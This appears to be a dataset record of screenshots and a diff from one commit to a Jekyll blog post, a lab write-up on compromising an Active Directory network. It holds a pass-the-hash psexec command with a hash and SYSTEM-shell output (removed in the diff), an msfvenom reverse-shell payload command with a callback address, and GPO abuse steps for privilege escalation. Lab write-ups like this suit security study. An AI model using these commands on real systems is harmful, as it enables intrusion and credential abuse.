

Before and after one commit to braaaax/braaaax.github.io, a Jekyll site: the page built from _posts/2018-3-26-lky-labs.md, in a window 1280 px wide and 1400 px high, scrolled down 13434 px. Shown: the whole window, without its empty margins (248-1034 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
updated site

````diff
--- a/_posts/2018-3-26-lky-labs.md
+++ b/_posts/2018-3-26-lky-labs.md
@@ -191,41 +191,29 @@
 Guest:501:aad3b435b51404eeaad3b435b51404ee:06a380cfedba265a9bcf51f2cffa40fa:::
 ```
 
+![](https://braaaax.github.io/braaaax.github.io/images/lky-ntlmrelayx.png)
+
 Next we want to put those hashes to use and get a shell as Administrator
 
 
-```
-./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e8bcd502fbbdcd9379305dca15f4854e administrator@10.8.14.14
-
-Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies
-
-
-[*] Requesting shares on 10.8.14.14.....
-[*] Found writable share ADMIN$
-[*] Uploading file JkqJuZDF.exe
-[*] Opening SVCManager on 10.8.14.14.....
-[*] Creating service HPPN on 10.8.14.14.....
-[*] Starting service HPPN.....
-[!] Press help for extra shell commands
-Microsoft Windows [Version 6.3.9600]
-(c) 2013 Microsoft Corporation. All rights reserved.
-
-C:\Windows\system32>whoami
-nt authority\system
-
-```
+![](https://braaaax.github.io/braaaax.github.io/images/lky-sql01-login.png)
 
 
 
 Success as system on sql01 let's create a rat with msfvenom (`msfvenom -p windows/shell/reverse_tcp lhost=10.8.254.10 lport=4444 -f exe -o callbrax.exe`) and get a meterpreter shell. Meterpreter and incognito make it trivial to use token impersonation to spawn a shell as a user. We see BDavis is a user on the box, he's our target.
 
+![](https://braaaax.github.io/braaaax.github.io/images/lky-steal-token-01.png)
+
+
+![](https://braaaax.github.io/braaaax.github.io/images/lky-steal-token2.png)
+
+
+
 
 GPO Enumeration:
 ```powershell
-Get-NetGPO
-```
+PS > Get-NetGPO
 
-```
 ...
 
 flags                    : 0
@@ -251,14 +239,11 @@
 objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=lab,DC=local
 
 ...
-
 ```
 
 ```powershell
-Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
-```
+PS > Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
 
-```
 ...
 
 InheritedObjectType   : All
@@ -290,7 +275,6 @@
 ObjectSID             :
 
 ...
-
 ```
 
 Inspect the Mailserver:
@@ -363,10 +347,7 @@
 <Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Administrators (built-in)" image="2" changed="2018-03-24 12:21:33" uid="{2E4B16DC-E5CA-4509-AB6D-5A6597E12936}"><Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-544" groupName="Administrators (built-in)"><Members><Member name="Server Admins" action="ADD" sid=""/></Members></Properties></Group>
 </Groups>
 
-```
-
-```powershell
-Invoke-GpUpdate -Computer MX01 -Force
+PS > Invoke-GpUpdate -Computer MX01 -Force
 ```
 
 
````
